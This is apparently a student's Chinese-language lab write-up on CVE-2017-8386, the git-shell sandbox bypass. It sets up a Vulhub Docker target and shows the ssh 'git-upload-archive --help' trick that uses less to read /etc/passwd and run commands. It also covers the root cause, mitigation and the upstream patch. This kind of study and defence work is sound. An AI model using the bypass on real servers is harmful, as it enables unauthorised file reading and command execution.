




# git-shell 沙盒绕过漏洞 CVE-2017-8386

[CIRCL:CVE-2017-8386 Summary :  ](https://cve.circl.lu/cve/CVE-2017-8386)git-shell in git before 2.4.12, 2.5.x before 2.5.6, 2.6.x before 2.6.7, 2.7.x before 2.7.5, 2.8.x before 2.8.5, 2.9.x before 2.9.4, 2.10.x before 2.10.3, 2.11.x before 2.11.2, and 2.12.x before 2.12.3
通过身份验证的远程用户以 - （破折号）字符开头的存储库名称获取权限。

GIT-SHELL 沙盒绕过（CVE-2017-8386）导致任意文件读取、可能的任意命令执行漏洞。

参考链接：
- [https://insinuator.net/2017/05/git-shell-bypass-by-abusing-less-cve-2017-8386/](https://insinuator.net/2017/05/git-shell-bypass-by-abusing-less-cve-2017-8386/)
- [https://www.anquanke.com/post/id/86067](https://www.anquanke.com/post/id/86067)
- [https://www.leavesongs.com/PENETRATION/git-shell-cve-2017-8386.html](https://www.leavesongs.com/PENETRATION/git-shell-cve-2017-8386.html)
- [https://github.com/vulhub/vulhub/tree/master/git/CVE-2017-8386](https://github.com/vulhub/vulhub/tree/master/git/CVE-2017-8386)

## 靶场环境构建
使用 Vulhub 一键搭建漏洞测试靶场

```bash

git clone https://github.com/vulhub/vulhub.git

cd git/CVE-2017-8386/

sudo docker-compose build

sudo docker-compose up -d

```

## 漏洞利用实战
ref:
- [https://github.com/vulhub/vulhub/tree/master/git/CVE-2017-8386](https://github.com/vulhub/vulhub/tree/master/git/CVE-2017-8386)

在连接以前，需要先设置私钥的权限为0600：`chmod 0600 id_rsa`，否则连接可能失败。


```bash
# 私钥的权限为0600
chmod 0600 id_rsa

# 会被git-shell给拦截，返回错误fatal: unrecognized command ''，并且连接被关闭
ssh -p 3322 -i id_rsa git@127.0.0.1

# 使用--help技巧，连接目标并进入帮助页面
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "git-upload-archive '--help'"

```

帮助页面是less页面，按`shift+e`可以打开Examine功能，通过这个功能可以读取任意文件，如`/etc/passwd`；输入`!id`就可以执行id这个命令

[](https://asciinema.org/a/191495)

## 漏洞原理分析
ref:
- [安全客：CVE-2017-8386：利用less命令绕过git-shell限制（中文翻译版）](https://www.anquanke.com/post/id/86067)
- [git-shell-bypass-by-abusing-less-cve-2017-8386/（英文版）](https://insinuator.net/2017/05/git-shell-bypass-by-abusing-less-cve-2017-8386/)
- [使用ssh连接github](https://help.github.com/articles/connecting-to-github-with-ssh/)
- [Checking for existing SSH keys](https://help.github.com/articles/checking-for-existing-ssh-keys/)
- [Adding a new SSH key to your GitHub account](https://help.github.com/articles/adding-a-new-ssh-key-to-your-github-account/)
- [Generating a new SSH key and adding it to the ssh-agent](https://help.github.com/articles/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent/)
- [Testing your SSH connection](https://help.github.com/articles/testing-your-ssh-connection/)
- [Working with SSH key passphrases](https://help.github.com/articles/working-with-ssh-key-passphrases/)

### git shell 使用ssh通信

git-shell在git远程会话之上引入了ssh隧道，是一种受限的shell。其背后的基本思想就是，在ssh会话中限制能够执行的命令，使其仅仅能执行git需要的相应命令，如下：

```bash
git-receive-pack
    Receives repository updates from the client.
git-upload-pack
    Pushes repository updates to the client.
git-upload-archive
    Pushes a repository archive to the client.

```

ssh交互,执行`ssh -T git@github.com`连接上了github ssh服务，并验证身份通过了，但是连接又会被关上。

[使用ssh连接github](https://help.github.com/articles/connecting-to-github-with-ssh/)如下。

```bash
# 生成ssh公私钥
ssh-keygen -t rsa -b 4096 -C "your_email@example.com"

# 查看 Agent pid
eval $(ssh-agent -s)

ssh-add ~/.ssh/id_rsa

# 复制公钥到粘贴板
clip < ~/.ssh/id_rsa.pub

```



### 漏洞原理
```bash
# 获取git shell v2.12.2源代码
wget -qO- https://github.com/git/git/archive/v2.12.2.tar.gz | tar zx -C /usr/src/git --strip-components=1

# 获取man源代码
git clone https://git.savannah.gnu.org/git/man-db.git

```

[获取man源代码](https://unix.stackexchange.com/questions/226716/where-is-the-latest-source-code-of-man-command-for-linux)


[下载less源代码](http://www.greenwoodsoftware.com/less/download.html)

#### GIT-SHELL 沙盒绕过（CVE-2017-8386）导致任意文件读取、可能的任意命令执行漏洞。

执行`git-upload-archive --help`（或`git-receive-pack --help`），将会进入一个交互式的man页面，man又调用了less命令，最后是一个可以上下翻页的帮助文档。

less命令有一个特性，就是其支持一些交互式的方法。比如在less页面中，按`shift+e`可以打开Examine功能，通过这个功能可以读取任意文件；输入`!id`就可以执行id这个命令。

因此，主要是less支持交互式而触发漏洞。


less源代码，`commands.c` 用于执行用户输入的命令，`main.c` 调用`commands.c`中的函数。git-shell CVE-2017-8386 利用了less的这一特性，使用户可以执行受限权限内的命令。

`commands.c`中的函数如下：

```c
/*
 * Get command character.
 * The character normally comes from the keyboard,
 * but may come from ungotten characters
 * (characters previously given to ungetcc or ungetsc).
 */
	public int
getcc()
{
}

/*
 * "Unget" a command character.
 * The next getcc() will return this character.
 */
	public void
ungetcc(c)
	int c;
{

}

/*
 * Unget a whole string of command characters.
 * The next sequence of getcc()'s will return this string.
 */
	public void
ungetsc(s)
	char *s;
{
}

/*
 * Search for a pattern, possibly in multiple files.
 * If SRCH_FIRST_FILE is set, begin searching at the first file.
 * If SRCH_PAST_EOF is set, continue the search thru multiple files.
 */
	static void
multi_search(pattern, n, silent)
	char *pattern;
	int n;
	int silent;
{
}

/*
 * Main command processor.
 * Accept and execute commands until a quit command.
 */
	public void
commands()
{
}

```

**遇到的问题**

*没有在源代码里找到 git 调用 man 的代码，没有找到 man 如何调用了 less ,是不是 man 和 less 是 linux 的底层代码，可以直接使用？*

#### 通过身份验证的远程用户以 - （破折号）字符开头的存储库名称获取权限

[禁止使用破折号开头的字符命名仓库](https://github.com/git/git/commit/3ec804490a265f4c418a321428c12f3f18b7eff5#diff-f15e10565b3c1bb3eee37587f4469686)




### CWE 漏洞成因归类
[Common Weakness Enumeration 264](https://cwe.mitre.org/data/definitions/264.html)

#### 访问，修改或执行可执行文件

执行 `git-upload-archive '--help'` 命令，调用 man ，man 使用 less 输出文本，于是可以在shell中执行命令。因此，根据git服务器的环境，可以创建bash脚本并执行，可以访问、修改文件，`rm`关键的文件。


## 漏洞影响分析

### [CIRCL:CVE-2017-8386](https://cve.circl.lu/cve/CVE-2017-8386)

[Vulnerability Details : CVE-2017-8386](https://www.cvedetails.com/cve/CVE-2017-8386/)

| id        |  CVE-2017-8386 |
| ------------- |:-------------:|
| CVSS      | 6.5 |
| CWE  ID  | [264](https://cve.circl.lu/cwe/264)      |
| CAPEC | 访问，修改或执行可执行文件|
|  |在非可执行文件中利用可执行代码|
| |  Blue Boxing|
| |  特权提升|
| |  具有提升权限的目标程序 |
| |  操作文件系统调用的输入      |
|机密性影响	|部分|
|访问复杂性|	低 |(
|认证|	单一系统 |
|获得访问权限| 无	|
|漏洞类型|	获取权限|

### 用实验操作验证「最大化」漏洞利用效果有哪些

1. 信息泄漏

以 www-data 用户进入服务器的shell，可以查看`/etc/passwd`



2. 非最高权限的受限代码执行

执行bash脚本，打印 hello world

[](https://asciinema.org/a/191994)


## 漏洞缓解

[限制用户访问shell](https://git-scm.com/book/en/v2/Git-on-the-Server-Setting-Up-the-Server)

[/etc/shells文件用途](https://blog.csdn.net/huangfei711/article/details/51056856) 系统某些服务在运行过程中，会去检查用户能够使用的 shells，而这些 shell 的查询就是借助 /etc/shells 这个文件


```bash
sudo docker exec -it containerid /bin/#!/usr/bin/env bash

cat /etc/shells   # see if `git-shell` is already in there.  If not...

which git-shell   # make sure git-shell is installed on your system.

sudo vim /etc/shells  # and add the path to git-shell from last command

# git 用户只能使用 git-shell
sudo chsh git -s $(which git-shell)

# 重新执行"git-upload-archive '--help'"会被拦截
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "git-upload-archive '--help'"

```



## 漏洞修补

#### 禁止通过 "git-upload-archive '--help'" 访问服务器

`ssh -p 3322 -i id_rsa -t git@127.0.0.1 "git-upload-archive '--help'"` 是连接上服务器，然后在服务器上执行`git-upload-archive '--help'`，个人理解，不是源代码级别上的漏洞，直接禁止用户通过ssh在服务器上执行命令即可。

#### 禁止以 - （破折号）字符开头的存储库名称获取权限

[禁止使用破折号开头的字符命名仓库](https://github.com/git/git/commit/3ec804490a265f4c418a321428c12f3f18b7eff5#diff-f15e10565b3c1bb3eee37587f4469686)

```c

// 禁止使用破折号
if (!arg || !(arg = sq_dequote(arg)) || *arg == '-')
 		die("bad argument");

```

**遇到的问题**

*CVE-2017-8386 存在另一个在vulhub上没有提到的漏洞：“[以 - （破折号）字符开头的存储库使得用户可以获取权限](https://cve.circl.lu/cve/CVE-2017-8386)”。但是远程用户不能在本地创建仓库，github官网给出的[创建仓库的方法](https://help.github.com/articles/creating-a-new-repository/)是通过浏览器端新建仓库，在docker容器下要怎么搭建存在用户仓库的git服务器？[没有找到相关漏洞攻防的资料]*
